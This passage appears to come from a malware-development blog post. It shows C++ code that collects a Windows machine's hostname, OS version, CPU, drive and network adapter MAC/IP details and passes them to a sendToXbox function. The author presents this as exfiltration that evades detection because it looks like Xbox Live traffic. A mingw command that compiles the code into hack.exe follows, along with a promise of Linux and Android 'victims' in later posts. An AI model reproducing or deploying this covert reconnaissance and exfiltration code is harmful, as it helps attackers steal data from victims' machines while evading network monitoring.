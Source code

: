 ```cpp
  // snprintf(systemInfo, sizeof(systemInfo),
  //   "Host: %s , OS: %d.%d.%d",
  //   hostName,
  //   osVersion.dwMajorVersion, osVersion.dwMinorVersion, osVersion.dwBuildNumber);
 
  snprintf(systemInfo, sizeof(systemInfo),
    "Host: %s | OS: %d.%d.%d | Arch: %d | CPU: %d | Drives: %X ",
    hostName,
    osVersion.dwMajorVersion, osVersion.dwMinorVersion, osVersion.dwBuildNumber,
    sysInfo.wProcessorArchitecture,
    sysInfo.dwNumberOfProcessors,
    drives);
 
  for (PIP_ADAPTER_INFO adapter = adapterInfo; adapter != NULL; adapter = adapter->Next) {
    snprintf(systemInfo + strlen(systemInfo), sizeof(systemInfo) - strlen(systemInfo),
     "MAC: %02X-%02X-%02X-%02X-%02X-%02X | IP: %s, ",
     adapter->Address[0], adapter->Address[1], adapter->Address[2],
     adapter->Address[3], adapter->Address[4], adapter->Address[5],
     adapter->IpAddressList.IpAddress.String);
  }

  sendToXbox(systemInfo);
  return 0;
}
```

This traffic looks like normal communication between friends on Xbox Live, making it invisible to most network monitoring systems, in the future posts I will show the same logic for Linux and Android "victims".    

### demo

Let's go to see this in action. Compile it:     

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -liphlpapi -lwinhttp
```

![malware](/assets/images/182/2025-10-25_11-42.png){:class="img-responsive"}    
